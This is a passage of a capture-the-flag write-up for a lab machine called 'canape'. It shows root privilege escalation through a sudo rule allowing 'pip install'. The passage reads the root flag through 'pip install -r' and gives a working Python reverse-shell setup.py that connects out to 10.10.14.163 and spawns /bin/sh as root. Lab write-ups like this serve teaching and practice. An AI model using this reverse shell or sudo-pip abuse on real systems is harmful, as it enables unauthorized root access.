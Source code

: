 We got **homer** now. **user.txt** is in this home folder.

# Privilege Escalation
First lets check **sudo -l**

```
homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

We can install **pip** packages as **root,** great.<br>
I can grab the flag easily, let me show you.

```
homer@canape:~/.root$ sudo pip install -r /root/root.txt
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Collecting xxxxxxxxxxxxxxxxxxxxxxx (from -r /root/root.txt (line 1))
```

Why it worked ? **-r** flag means take all requipments from given txt file. And I gave it **root.txt** :smiling_imp: <br>
Then pip want it to collect the first line and **boooom.** *(first-line was the flag)*

And this is other technique for **reverse-shell.** Create empty folder and name it this little script as **setup.py** and run `sudo pip install .`

```py
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.163",3141))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

```
homer@canape:~/.root$ sudo pip install .
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /home/homer/.root
```

